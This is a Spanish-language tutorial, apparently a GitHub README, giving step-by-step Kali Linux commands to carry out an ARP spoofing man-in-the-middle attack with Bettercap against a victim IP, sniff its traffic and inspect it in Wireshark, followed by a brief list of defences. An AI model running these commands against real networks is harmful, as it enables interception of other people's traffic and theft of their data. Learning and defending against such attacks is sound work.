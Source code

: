 ### 🛠️ Instalación paso a paso (en Kali Linux)

##### 🖥️ Paso 1: Instalar las herramientas

```bash
sudo apt update
sudo apt install ettercap-graphical wireshark bettercap net-tools
```

#### 🖥️ Paso 2: Ver interfaces de red

```bash
ifconfig  # o
ip a
```

Anota el nombre de tu interfaz (ej: `eth0`, `wlan0`)

---

### 🔄 Ejemplo de ataque ARP Spoofing con **Bettercap**

#### Paso 1: Iniciar Bettercap

```bash
sudo bettercap -iface eth0
```

#### Paso 2: Dentro de Bettercap, ejecuta:

```bash
net.probe on                 # Escanea la red
set arp.spoof.targets 192.168.0.5  # IP de la víctima
arp.spoof on                # Inicia el ataque ARP Spoofing
net.sniff on                # Captura paquetes de la víctima
```

#### Paso 3: Ver tráfico interceptado

Puedes abrir **Wireshark** al mismo tiempo:

```bash
sudo wireshark
```

Y ver qué paquetes pasan a través de tu máquina.

---

### 🛡️ ¿Cómo protegerse de un ataque MITM?

- Usar **HTTPS siempre** (con certificado válido).
- Activar **detección de ARP Spoofing** en routers o firewalls.
- Usar herramientas como **arpwatch** para monitorear cambios de MAC en la red.
- Implementar **segmentación de red**.
- Activar **Static ARP tables** (en entornos críticos).
- **VPN** puede evitar que los datos sean leídos aun si son interceptados.

---